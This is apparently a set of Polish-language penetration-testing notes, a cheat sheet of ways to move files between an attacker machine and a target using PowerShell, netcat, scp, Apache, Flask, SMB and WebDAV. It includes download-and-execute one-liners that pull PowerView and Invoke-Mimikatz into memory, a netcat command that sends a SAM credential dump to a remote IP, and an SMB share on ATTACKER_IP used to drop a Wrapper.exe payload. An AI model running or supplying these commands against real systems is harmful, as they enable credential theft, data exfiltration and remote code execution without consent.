

# Content
1. [Podzial na fragmenty](#Podzial-na-fragmenty)
2. [Powershell](#Powershell)
3. [Przeslanie nc](#Przeslanie-nc)
4. [Przeslanie przez ssh scp](#Przeslanie-przez-ssh-scp)
5. [Apache](#Apache)
6. [Upload flask](#Upload-flask)
7. [Using SMB server](#SMB-server)
8. [WebDav](#webdav)

# Podzial na fragmenty
### Mozna przed podzieleniem zakodowac do base64
```console
base64 -w file.ext > file_to_split
```
### Dobry sposob
Podzielenie na ilosc partii
```console
split -n 20 file_to_split
```
Zlaczenie podzielonych kawalkow
```console
cat x* > scale_file
```
### Pierwotna wersja



# Powershell
### Dekodowanie base64 do binarki pliku powershell
```powershell
$contentString = Get-Content $filePath -Encoding UTF8
$binary = [Convert]::FromBase64String($contentString)
Set-Content -Path $newFileName -Value $binary -Encoding Byte
```
### Komendy pobierania pliku
```powershell
IEX (New-Object System.Net.Webclient).DownloadString('http://ip/powerview.ps1')
```
```powershell
iwr -uri http://ip/powerview.ps1 -OutFile pv.ps1
```

```powershell
$power = (New-Object System.Net.Webclient).DownloadString('http://ip/powerview.ps1')

```


```powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

# Przeslanie nc
### Nasluch
```console
nc -nlvp 9999 > dane
```
### Wyslanie
```console
nc -n <ip> 9999 < file
```
### Wyslanie pliku z windowsa
```console
Get-Content SAM.base | .\nc.exe 10.10.116.147 9001
```

# Przeslanie przez ssh scp
### Przeslanie
```console
scp file.ext kali@192.168.45.193:/tmp
```
### Pobranie pliku przez ssh
```console
scp kali@192.168.45.250:/home/kali/Desktop/ticket.doc ticket.doc
```

# Apache
Kopiujemy plik do /var/www/html
```console
systemctl start apache2
```
Pobieramy plik na innej maszynie
```console
wget http://naszeIP/zasob
```

# Upload flask
```console
git clone https://github.com/romeokienzler/flask-file-upload.git
```
```console
mv upload.py app.py
```
```console
flask run
```
Connect i browser **127.0.0.1:5000**

# SMB server
    Uruchamiamy server na kalim:
    sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
    
    Na windowsie 
    1) Podlaczamy zasow:
       1- net use \\ATTACKER_IP\share /USER:user s3cureP@ssword 
    2) Kopiujemy pliki
       1- copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
    3) Odlaczamy zasob
       1- net use \\ATTACKER_IP\share /del
    
    Tutaj takie cos bylo robione(Uprawnienia windows)


# webdav
```bash
sudo pip3 install wsgidav cheroot
```
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
Polaczenie do zasobow z powershella
```powershell
dir \\192.168.49.128\DavWWWRoot
```
